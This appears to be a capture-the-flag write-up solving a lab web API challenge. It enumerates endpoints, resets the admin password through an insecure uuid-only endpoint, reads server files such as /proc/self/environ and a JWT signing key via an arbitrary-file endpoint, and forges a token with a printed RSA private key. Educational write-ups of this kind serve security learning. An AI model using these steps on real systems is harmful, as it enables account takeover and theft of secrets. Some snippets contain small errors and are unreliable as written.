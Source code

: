 #### Challenge:

Ahoy, officer,

on our last port visit, a new U.S.A. (Universal Ship API) interface was installed on the ship. In order to unlock new experimental ship functions, the special code has to be entered into ship FLAG (First Layer Application Gateway). Your task is to get this FLAG code from U.S.A.

May you have fair winds and following seas!

The U.S.A. is available at <a href="http://universal-ship-api.cns-jv.tcc" target="_blank">http:&#47;&#47;universal-ship-api.cns-jv.tcc</a>.

---

#### Solution:

- playing with the API reveals that there are few endpoints however for some of them we need token, `nikto` didn't find anything useful

```
http://universal-ship-api.cns-jv.tcc/docs
http://universal-ship-api.cns-jv.tcc/api/v1/admin
http://universal-ship-api.cns-jv.tcc/api/v1/user
```

- after digging for some time I came across [writeup](https://0xdf.gitlab.io/2022/05/02/htb-backendtwo.html) which seems to be inspiration for this challenge... based on it instead of `nikto` `feroxbuster` is used and that reveals 2 additional endpoints

```bash
feroxbuster -u http://universal-ship-api.cns-jv.tcc/ --force-recursion -C 404,405 -m GET,POST --random-agent
feroxbuster -u http://universal-ship-api.cns-jv.tcc/api/v1/user --force-recursion -C 404,405 -m GET,POST --random-agent
> http://universal-ship-api.cns-jv.tcc/api/v1/user/signup
> http://universal-ship-api.cns-jv.tcc/api/v1/user/login

curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/signup -d '{"email": "magic", "password": "0xdf0xdf"}' -H "Content-Type: application/json"
curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/login -d 'username=magic&password=0xdf0xdf'
```

- now we can craft our own user and look into the `swagger` where we find couple of new endpoints:
  - `updatepassword` with just the user `uuid` we can alter password
  - `admin/file` can download any file on FS
  - `admin/getFlag` get the final flag

- updating the `admin` password is pretty easy as we can list it's `uuid` without admin token

```bash
curl http://universal-ship-api.cns-jv.tcc/api/v1/user/1 \
  -H "Authorization: Bearer ..."  \

curl -X 'POST' \
  'http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword' \
  -H "Authorization: Bearer ..."  \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "guid": "f2abcb5c-7060-4ba8-bf76-0447ba79fbb4",
  "password": "0xdf0xdf"
}'
curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/login -d 'username=admin@local.tcc&password=0xdf0xdf'
```

- unfortunately with the admin token `getFlag` endpoint is still not working as it requires custom `jwt` property, so we need to craft our own token and for that we'll reverse the application and leak all the keys via `admin/file` endpoint

```bash
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/proc/self/environ" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/main.py" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/appconfig/config.py" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "shipapi/appconfig/jwtsigning.key" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "shipapi/appconfig/jwtsigning.pub" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/core/auth.py" }' | jq -r .file
```

- generate custom `jwt` token with `flag-read` property

```python
from datetime import datetime, timedelta
import jwt

payload = {}
payload["type"] = "access_token"
payload["exp"] = datetime.utcnow() + 60 * 24 * 8
payload["iat"] = datetime.utcnow()
payload["sub"] = str(1)
payload["admin"] = bool(True)
payload["flag-read"] = bool(True)
payload["guid"] = str("f2abcb5c-7060-4ba8-bf76-0447ba79fbb4")

JWT_RSA_KEY = "-----BEGIN RSA PRIVATE KEY-----\n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\n-----END RSA PRIVATE KEY-----\n"
ALGORITHM: str = "RS384"

jwt.encode(payload, JWT_RSA_KEY, algorithm=ALGORITHM)
```

- all that remains is get the flag with our crafted token

```bash
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag H "Authorization: Bearer ..."`
```
---

<details><summary>FLAG:</summary>

```
FLAG{910P-iUeJ-Wwq1-i8L2}
```

</details>
<br/>

